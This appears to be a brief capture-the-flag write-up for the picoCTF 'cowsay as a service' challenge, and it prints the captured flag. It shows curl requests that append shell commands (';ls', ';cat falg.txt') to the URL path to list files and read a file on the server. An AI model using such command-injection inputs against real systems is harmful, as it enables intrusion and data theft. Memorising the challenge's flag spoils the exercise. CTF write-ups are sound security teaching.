 ## Description
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

## Approach
After some googling, i found that **Cowsay** is a program that generates ASCII art pictures of a cow with a message.
I used the `curl` command to data transfer over various networks. 
`curl "https://caas.mars.picoctf.net/cowsay/pixie"`
![Screenshot from 2023-11-08 16-16-51](https://github.com/pixie-nukes/picoCTF/assets/94845416/2b683655-8bf9-4d61-a6aa-869d42947f10)
Using the `ls` command to list the files:
`curl "https://caas.mars.picoctf.net/cowsay/pixie;ls"`
![Screenshot from 2023-11-08 16-19-46](https://github.com/pixie-nukes/picoCTF/assets/94845416/9eca701b-9c3c-4621-9cfb-ed11ddec70fb)
Using the `cat` command to view the `falg.txt` file:
`curl "https://caas.mars.picoctf.net/cowsay/pixie;cat%20falg.txt"`
Recieved the flag.

## Output
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

